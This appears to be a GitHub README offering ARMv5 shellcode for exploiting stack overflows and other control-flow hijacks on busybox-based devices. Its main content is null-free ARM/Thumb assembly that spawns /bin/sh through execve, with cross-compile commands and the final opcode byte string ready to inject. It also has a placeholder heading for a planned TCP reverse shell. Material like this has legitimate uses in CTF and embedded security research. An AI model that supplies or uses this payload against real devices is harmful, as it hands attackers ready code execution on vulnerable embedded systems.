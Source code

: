 # Armv5_shellcode

>Background:
> 	 Since the default armv7 syntax of the shellcode generated in pwntools cannot be executed under the armv5 instruction set chip, the following shellcode is written to facilitate the exploitation of vulnerabilities. This shellcode can be used by the armv5 test without null byte. This shellcode mainly operates on the stack and does not modify the code segment and data segment.
>Applicable scenarios:
>
>    	 1. The target applies to busybox
>    	 2. There are stack overflow or other vulnerabilities that can hijack program flow
>    	 3. Arrange this shellcode in memory



###### Applicable to busybox

```
/*
#execve("/bin/sh",["/bin/sh"],NULL)
#Date:2022-4-14
#Author:doudoudedi
#Text:F1C200s
*/
.section .text
.global _start

_start:
	.ARM
	mov r7,#0x68
	strb r7,[sp,#-0x15]
	mov r7,#0x73
	strb r7,[sp,#-0x16]
	mov r7,#0x2f
	strb r7,[sp,#-0x17]
	mov r7,#0x6e
	strb r7,[sp,#-0x18]
	mov r7,#0x69
	strb r7,[sp,#-0x19]
	mov r7,#0x62
	strb r7,[sp,#-0x1a]
	mov r7,#0x2f
	strb r7,[sp,#-0x1b]
	eor r3,r3,r3
	eor r2,r2,r2
	eor r4,r4,r4
	add r4,sp,#-0x1b
	add r3,pc,#1
	bx  r3
	.THUMB
	mov r0,r4
	push {r0,r1}
	mov r1,sp
	mov r2,#1
	sub r2,r2,#1
	mov r7,#0xb
	svc #1

/*
Compile and link with: 
# arm-linux-gnueabi-as -o shellcode.o shellcode.s
# arm-linux-gnueabi-ld -N shellcode.o -o shellcode
# arm-linux-gnueabi-objcopy -O binary --only-section=.text shellcode shellcode.text
shellcode_opcode:
"\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x03\x30\x23\xe0\x02\x20\x22\xe0\x04\x40\x24\xe0\x1b\x40\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x20\x1c\x03\xb4\x69\x46\x01\x22\x01\x3a\x0b\x27\x01\xdf\xc0\x46"
*/
```

##### Reverse Shell TCP(Armv5)

updating
